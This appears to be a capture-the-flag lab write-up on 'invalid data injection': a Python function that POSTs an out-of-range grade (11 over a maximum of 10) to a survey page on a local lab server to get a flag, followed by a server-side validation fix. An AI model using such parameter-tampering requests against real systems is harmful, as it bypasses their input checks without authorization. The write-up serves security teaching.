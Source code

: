 # Invalid data injection attack

### Introduction
Invalid data injection attack involves injecting invalid data to the server.

### Procedure
In order to submit invalid data to the survey page, we are going to create a script in python that will send a POST request to the server with a grade greater than 10. Which will return us the flag we are looking for.

### Program
We are going to create a function that will send POST request to the server and will return us the page response.
``` python
def try_authentication():
	encoded_params = urllib.parse.urlencode({ 'page': 'survey' })

	url = 'http://192.168.56.101/?{}'.format(encoded_params)

	data = { 'sujet': '2', 'valeur': '11' }
	headers = { 'Content-Type': "application/x-www-form-urlencoded" }

	response = requests.post(url, data=data, headers=headers)

	return response.text
```

This function will give to subject 2 a grade of 11 which is greater than the allowed value on the website which will return us the flag we are looking for.

### How to fix
In order to fix this issue, the server should verify the value entered in the server side as the values given by the client should never be trusted.